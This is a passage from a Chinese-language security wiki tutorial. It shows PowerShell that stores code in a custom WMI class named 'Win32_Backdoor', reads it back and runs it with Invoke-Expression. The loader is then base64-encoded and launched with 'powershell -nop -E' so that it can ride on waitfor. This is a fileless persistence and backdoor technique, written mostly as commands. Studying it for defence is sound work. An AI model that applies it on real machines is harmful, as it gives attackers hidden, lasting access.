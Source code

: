 以上操作如下图

![](images/security_wiki/15906330456522.png)


执行payload：

```bash
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec

```

**注：**

通过Invoke-Expression执行命令也可以，使用iex是为了缩短长度

结合waitfor的参数格式，这里选择将代码编码为base64

对执行payload的代码进行base64编码，以下代码保存在code.txt：

```bash
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec

```

对其进行base64编码，代码如下：

```bash
$code = Get-Content -Path code.txt
$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded 

```

获得base64加密代码如下：

```bash
JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==

```

以上操作如下图

![](images/security_wiki/15906330855327.png)


测试base64加密代码：

```bash
powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==

```

成功执行代码，如下图
